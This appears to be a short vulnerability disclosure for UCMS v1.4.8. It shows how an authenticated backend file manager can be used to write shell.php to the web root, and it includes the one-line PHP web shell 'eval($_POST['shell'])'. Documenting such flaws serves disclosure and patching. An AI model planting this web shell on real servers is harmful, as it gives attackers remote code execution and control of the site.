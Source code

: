 
UCMS v1.4.8 getshell


Vulnerability Version :

1.4.8

Open the URL [http://127.0.0.1/login.php](http://127.0.0.1/login.php), Login to the background.

Open the URL [http://127.0.0.1/ucms/index.php?do=sadmin_file](http://127.0.0.1/ucms/index.php?do=sadmin_file)

Create a shell.php file to submit

![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS.png)


![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS2.png)

Put the request just in the root directory


![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS3.png)

found the poc： php eval($_POST['shell']);

![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS5.png)


getshell

![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS4.png)

